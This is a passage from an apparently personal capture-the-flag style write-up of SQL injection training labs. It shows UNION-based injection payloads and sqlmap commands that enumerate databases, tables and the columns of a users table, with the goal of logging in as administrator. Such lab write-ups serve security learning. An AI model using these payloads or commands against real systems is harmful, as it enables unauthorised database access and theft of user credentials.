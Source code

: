 It give me this Payload I took it and replace this with 
	`Gifts' UNION ALL SELECT NULL,NULL,NULL-- 0x11
	`Gifts' UNION ALL SELECT NULL,'6yqrMC',NULL-- 0x11`


---
---
## 9. Lab: SQL injection UNION attack, retrieving data from other tables

**Instructions:**
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

**Solution:**

`python3 sqlmap.py -r ../../anwer/Desktop/Gifts -p category --dbs`
![](assets/Pasted%20image%2020251010074140.png)

`python3 sqlmap.py -r ../../anwer/Desktop/Gifts -p category -D public --tables`
![](assets/Pasted%20image%2020251010074234.png)

`python3 sqlmap.py -r ../../anwer/Desktop/Gifts -p category -D public -T users --columns`
![](assets/Pasted%20image%2020251010074311.png)
